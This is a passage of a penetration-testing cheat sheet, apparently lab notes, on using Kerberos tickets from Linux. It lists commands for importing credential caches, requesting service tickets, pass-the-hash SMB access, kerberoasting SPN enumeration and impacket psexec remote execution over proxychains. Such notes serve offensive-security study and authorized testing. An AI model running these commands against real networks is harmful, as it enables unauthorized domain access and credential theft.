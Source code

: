 ```
kinit # enter password
```

List tickets currently stored in the user's credential cache

```
klist
```

Discard all cached tickets

```
kdestroy
```

Renew within renewal timeframe

```
kinit -R
```

#### Import Credential Cache Files

Set KRB5CCNAME evn var

```
export KRB5CCNAME=/tmp/krb5cc_minenow
```

Request a service ticket

```
kvno MSSQLSvc/DC01.corp1.com:1433
```

#### Leverage Kerberos tickets from Linux

Leverage Kerberos to interact with the domain. Add domain controller to /etc/hosts & use proxychains to come from correct source. 

Use `-k` and `--no-pass` with impacket tools.

```
# Install Kerberos linux client utilities
apt install krb5-user

# ldap
ldapsearch -Y GSSAPI -H ldap://dc01.corp1.com -D "Administrator@CORP1.COM" -W -b "dc=corp1,dc=com" "servicePrincipalName=*" servicePrincipalName

# smb
```
smbclient -k -U "CORP1.COM\administrator" //DC01.CORP1.COM/C$
proxychains smbclient '\\10.9.0.200\share$' -U 'vault.local/bob%357e1382f274f51526f1e263cef0f67d' --pw-nt-hash
```
# impacket get AD users
proxychains GetADUsers.py -all -k -no-pass -dc-ip 172.16.83.168 complyedge.com/pete

# impacket get SPNs
proxychains GetUserSPNs.py -k -no-pass -dc-ip 192.168.120.5 CORP1.COM/Administrator

# impacket psexec
proxychains psexec.py pete@dmzdc01.complyedge.com -k -no-pass
```
